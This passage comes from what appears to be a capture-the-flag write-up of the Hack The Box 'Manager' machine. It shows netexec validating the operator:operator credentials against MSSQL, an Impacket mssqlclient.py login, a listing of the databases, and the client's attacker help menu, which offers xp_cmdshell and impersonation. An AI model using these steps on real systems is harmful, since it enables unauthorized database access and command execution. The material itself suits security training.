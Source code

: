 Raven is a good target to get shell over WinRM. Nothing else seems
interesting.

#### MSSQL

The creds work for the database as well:

    
    
    oxdf@hacky$ netexec mssql manager.htb -u operator -p operator
    MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
    MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator 
    

`mssqlclient.py` will connect, using the `-windows-auth` flag to say that it’s
using the OS authentication, not creds within the DB:

    
    
    oxdf@hacky$ mssqlclient.py -windows-auth manager.htb/operator:operator@manager.htb
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (MANAGER\Operator  guest@master)>
    

There are four DBs:

    
    
    SQL (MANAGER\Operator  guest@master)> select name from master..sysdatabases;
    name     
    ------   
    master
    tempdb
    model
    msdb
    

All four are [default MSSQL databases](https://dataedo.com/kb/databases/sql-
server/default-databases-schemas).

`mssqlclient.py` has extra shortcut commands to do common attacker things on
the DB:

    
    
    SQL (MANAGER\Operator  guest@master)> help
    
        lcd {path}                 - changes the current local directory to {path}
        exit                       - terminates the server process (and this session)
        enable_xp_cmdshell         - you know what it means
        disable_xp_cmdshell        - you know what it means
        enum_db                    - enum databases
        enum_links                 - enum linked servers
        enum_impersonate           - check logins that can be impersonate
        enum_logins                - enum login users
        enum_users                 - enum current db users
        enum_owner                 - enum db owner
        exec_as_user {user}        - impersonate with execute as user
        exec_as_login {login}      - impersonate with execute as login
        xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
        xp_dirtree {path}          - executes xp_dirtree on the path
        sp_start_job {cmd}         - executes cmd using the sql server agent (blind)